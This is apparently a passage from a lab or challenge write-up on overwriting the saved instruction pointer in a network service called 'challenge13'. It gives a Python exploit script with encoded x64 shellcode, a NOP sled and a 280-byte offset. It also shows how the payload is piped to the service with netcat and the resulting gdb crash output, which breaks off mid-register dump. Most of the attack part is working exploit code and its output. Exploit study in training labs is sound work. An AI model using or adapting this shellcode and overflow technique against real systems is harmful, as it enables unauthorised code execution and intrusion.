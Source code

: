 ## Overwrite SIP

Here is the prepared exploit. The offset is already correct (at 280 bytes).

```python
#!/usr/bin/python

import sys
import socket

shellcode = "\x48\x31\xc9\x48\x81\xe9\xf5\xff\xff\xff\x48\x8d\x05\xef" + "\xff\xff\xff\x48\xbb\xd2\x44\xe6\x0a\xfb\xc8\x96\x10\x48" + "\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xb8\x6d\xbe" + "\x93\x91\xca\xc9\x7a\xd3\x1a\xe9\x0f\xb3\x5f\xc4\xd7\xd6" + "\x60\xe4\x0a\xea\x94\xde\x99\x34\x2e\xf6\x50\x91\xf9\xce" + "\x1f\xd7\x2e\xd4\x52\xf4\xcd\xde\x21\x24\x2e\xcd\x52\xf4" + "\xcd\xde\x87\xb8\x47\xb8\x42\x04\x06\xfc\x31\x8a\x4b\xe3" + "\x7f\x0d\xa2\xad\x48\x4b\x0c\x5d\x25\x99\xa1\xf8\x3f\xa1" + "\x2c\xe6\x59\xb3\x41\x71\x42\x85\x0c\x6f\xec\xf4\xcd\x96" + "\x10"

buf_size = 256
offset = 280

ret_addr = "AAAA"

# 64 bytes
exploit = "\x90" * (buf_size - len(shellcode))
exploit += shellcode

# fill a bit
exploit += "A" * (offset - len(exploit))

exploit += ret_addr

sys.stdout.write(exploit)
```

Start the server:
```
root@hlUbuntu64:~/challenges/challenge13# gdb -q ./challenge13
Reading symbols from ./challenge13...(no debugging symbols found)...done.
gdb-peda$ set follow-fork-mode child
gdb-peda$ run
Starting program: /root/challenges/challenge13/challenge13
```

Execute the exploit POC:
```
root@hlUbuntu64:~/challenges/challenge13# python challenge13-exp-skel.py | nc localhost 5001
```

Result:
```
Client connected
Username: [...]
You ARE admin!
Be the force with you.
isAdmin: 0x41414141

Thread 2.1 "challenge13" received signal SIGSEGV, Segmentation fault.
[Switching to process 16794]


 [----------------------------------registers-----------------------------------]
RAX: 0x3a (':')
RBX: 0x0
RCX: 0x7fffffc6
RDX: 0x7ffff7b9b780 --> 0x0
RSI: 0x1
```